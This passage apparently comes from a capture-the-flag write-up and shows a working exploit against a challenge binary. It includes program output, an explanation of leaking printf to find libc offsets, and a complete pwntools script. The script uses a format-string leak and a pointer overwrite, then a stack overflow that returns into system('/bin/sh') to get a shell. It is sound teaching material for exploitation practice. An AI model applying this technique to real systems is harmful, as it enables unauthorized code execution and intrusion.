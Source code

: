 ```bash
b'Enter your name:\n'
b'Now Enter password: \n'
b'AAAAf7d7008e\x1c\xc0\x04\x08\n'
b'Congrats on getting past the first verification step. Here is something very useful\n'
b'0xf7da60a0\n'
[*] Switching to interactive mode
Enter 2nd Password: Password matched.Good For You
```

The 2nd address is of printf and the one after AAAA in 3rd line is address of
`__libc_start_main+270`. Subtract 270 from that and put it in the website and
get the right version. It would show your libc version when ran locally but we
can just run in server to find out.

We will find the necessary offsets in that site for things like `system` and
`/bin/sh`.

Now that we have all the necessary info we can overwrite the return address of
`verification2` (because of [this](#overflow) ) with `system` and pass `/bin/sh`
as its argument and get a shell hopefully.

```python
from pwn import *
import struct
def f(a: int) -> bytes:
    return struct.pack('I', a)
AddressOfPuts = 0x804c01c
AddressOfPassedFirstHurdle = 0x80492b3
Name = ('A' * 4 + "%23$8x").encode() + f(AddressOfPuts)
Password = f(AddressOfPassedFirstHurdle)
Filename = '' # Put filename here
def main() -> None:
    p = process(Filename)
    p.sendline(Name)
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 4)]

    # Libc 2.32
    # Will be different for other libc versions
    offsetForSh = 0x195108
    offsetForExit = 0x37e50
    offsetForSystem = 0x456e0
    offsetForPrintf = 0x550a0

    printfAddr = p.recvline().decode()
    print(printfAddr)
    printfAddr = printfAddr.strip().split(':')[-1]
    addressOfLibc = int(printfAddr, 16) - offsetForPrintf
    addressOfSh = addressOfLibc + offsetForSh
    addressOfExit = addressOfLibc + offsetForExit
    addressOfSystem = addressOfLibc + offsetForSystem

    payload = ("250382\x00" + 'A' * 21).encode() + \
        f(addressOfSystem) + f(addressOfExit) + f(addressOfSh) + f(0) #this seemed to overwrite the # return address
    p.sendline(payload)
    p.interactive()

main()

```
